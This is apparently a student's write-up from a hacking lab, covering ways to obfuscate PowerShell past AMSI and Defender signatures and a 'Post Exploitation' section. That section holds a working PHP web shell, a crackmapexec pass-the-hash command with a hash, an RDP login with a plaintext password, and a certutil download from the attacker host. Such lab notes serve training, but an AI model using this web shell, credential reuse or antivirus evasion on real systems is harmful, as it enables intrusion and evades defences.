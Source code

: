 * Signatures for most AMSI bypasses have been crafted, so AMSI & Defender themselves will catch these bypasses; we need to obfuscate them to evade signatures.

* Tools such as the [AMSITrigger script](https://github.com/RythmStick/AMSITrigger) can help us in manual obfuscation; this script will take a given PowerShell script and identify what strings are used to flag the script as malicious.

* String concatenation is a common technique used in manual obfuscation; for string literals & constants, concatenation occurs at compile-time, whereas for string variables, concatenation occurs at run-time.

* Type acceleration is another method used in manual obfuscation; we can abuse them to modify malicious types and break signatures.

* For automated obfuscation, we can use obfuscators such as [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) and ISE-Steroids.

* For code analysis and review to break signatures, we can use tools like [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) and [DefenderCheck](https://github.com/matterpreter/DefenderCheck).

## Post Exploitation - 3

```shell
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

```shell
#use crackmapexec to find endpoints where creds can be used
crackmapexec smb 10.200.112.0/24 -u watamet -d HOLOLIVE -H d8d41e6cf762a8c77776a1843d4141c9
#-d for domain, found from mimikatz dump

#evil-winrm pass-the-hash does not work

#xfreerdp works
xfreerdp /v:10.200.112.35 /u:watamet /p:Nothingtoworry!
```

```ps
#in PowerShell session in PC-FILESRV01
#fetch script from Python server on attacker machine

certutil.exe -urlcache -f http://10.50.109.20/applocker-checker.ps1 applocker-checker.ps1

.\applocer-checker.ps1
#runs the script
```
